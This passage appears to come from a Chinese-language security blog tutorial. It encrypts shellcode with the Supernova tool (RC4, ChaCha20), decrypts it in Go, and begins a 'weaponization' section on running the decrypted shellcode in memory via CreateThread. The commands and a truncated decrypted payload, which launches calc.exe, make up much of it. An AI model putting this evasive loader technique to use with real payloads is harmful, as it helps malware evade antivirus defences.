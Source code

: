 ```plain
./Supernova -enc rc4 -i calc.bin -k 16 -lang go -o calc_rc4.bin -guide
```

[![](assets/1707954174-f5773e76cb69ca1236857bafe0cbb602.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205003514-5f7b997a-c37b-1.png)

解密验证

```plain
go mod inti rc4
go build
./rc4                                                                 
RC4 Decrypted Payload:
0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, ...[snip]... 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E, 0x65, 0x78, 0x65, 0x00
```

## 武器化部分

有了加密和解密 Shellcode 的方法，现在只需将 Shellcode 解密后，复制到内存中，再通过 api 调用就好了。

### 通过 CreateThread 调用 Shellcode

使用生成解密部分的 golang 代码

```plain
./Supernova -enc chacha20 -i calc.bin -lang go -o calc_cc20.bin -guide
```

[![](assets/1707954174-c4959725ac9cb1ffc8ff9618d1a15ef8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205003522-6437ff12-c37b-1.png)
